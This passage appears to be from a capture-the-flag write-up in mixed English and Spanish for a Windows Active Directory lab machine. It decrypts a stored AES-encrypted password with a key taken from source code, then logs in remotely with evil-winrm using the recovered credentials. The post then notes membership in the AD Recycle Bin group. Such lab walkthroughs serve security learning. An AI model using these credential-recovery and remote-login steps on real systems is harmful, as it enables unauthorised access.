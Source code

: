 By examining the code, we can see that it encrypts the password (stored in the database we also downloaded) using AES in CBC mode with the key "c4scadek3y654321.""1tdyjCbY1Ix49842" We'll use CyberChef to input the key and try to decrypt the credentials.

![Usersweb](/assets/cascade/cyberchef.png)

## Log in on WinRM as arksvc
---
Usaremos las credenciales encontradas para entrar al nuevo usuario y ver que clase de permisos tenemos

````powershell
❯ evil-winrm -i 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> 
````

Enumerating for a while as `arksvc`, we discover that we are part of the **AD Recycle Bin** group.
